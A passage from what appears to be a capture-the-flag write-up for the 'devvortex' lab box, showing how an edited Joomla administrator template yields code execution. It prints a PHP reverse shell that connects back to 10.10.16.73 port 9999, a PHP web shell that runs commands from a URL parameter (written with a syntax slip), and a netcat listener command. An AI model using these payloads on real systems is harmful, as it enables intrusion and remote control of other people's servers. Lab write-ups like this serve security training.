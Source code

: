 ![AtumTemplate](../assets/img/editing.png)

Payloads can be either of these but It is better to use the reverse shell payload to make things easier:

```php
// Reverse shell payload
system('bash -c "bash -i >& /dev/tcp/10.10.16.73/9999 0>&1"')
```

```php
// Command injection payload
if isset($_GET['cmd']) system($_GET['cmd']);
```

Saving the file and visiting the url http://dev.devvortex.htb/administrator/index.php will spawn a reverse shellon our netcat listener on port 9999.

```bash
nc -lnvp 9999
```

![Revshell](../assets/img/rce_dev.png)
